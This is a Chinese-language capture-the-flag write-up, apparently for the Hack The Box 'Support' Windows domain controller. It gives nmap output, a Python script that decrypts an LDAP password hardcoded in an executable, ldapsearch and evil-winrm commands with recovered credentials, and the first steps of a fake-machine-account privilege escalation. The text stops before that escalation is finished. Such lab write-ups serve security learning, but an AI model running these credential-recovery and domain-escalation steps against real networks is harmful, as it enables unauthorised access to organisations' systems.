





# 信息收集

## nmap

```txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-16 09:41 CST
Nmap scan report for 10.10.11.174
Host is up (1.2s latency).
Not shown: 65526 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-04-16T01:43:02
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.67 seconds
```

## SMB

SMB共享目录中UserInfo.exe，下载到本地反编译





```python
#解密脚本

import base64

string = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
byte = b'armando'
string2 = base64.b64decode(string)
array = bytearray()
for i in range (0,len(string2)):
    array.append(string2[i]^byte[i % len(byte)]^0xDF)

print(array)
```

```
输出结果：nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

从反编译的代码中得知还开启了LDAP，可以使用该密码检索相关信息

```
ldapsearch -H  ldap://support.htb  -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "*"
```



也可以使用`apache directory studio`连接LDAP,info字段应该是密码



```
info:Ironside47pleasure40Watchful
```

开放了5985端口

使用evil-winrm连接windows远程桌面可以得到user.txt

```
evil-winrm -i 10.10.11.174 -u support -p "Ironside47pleasure40Watchful"
```

## 提权

```
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

```
Get-ADComputer -identity FAKE-COMP01
```

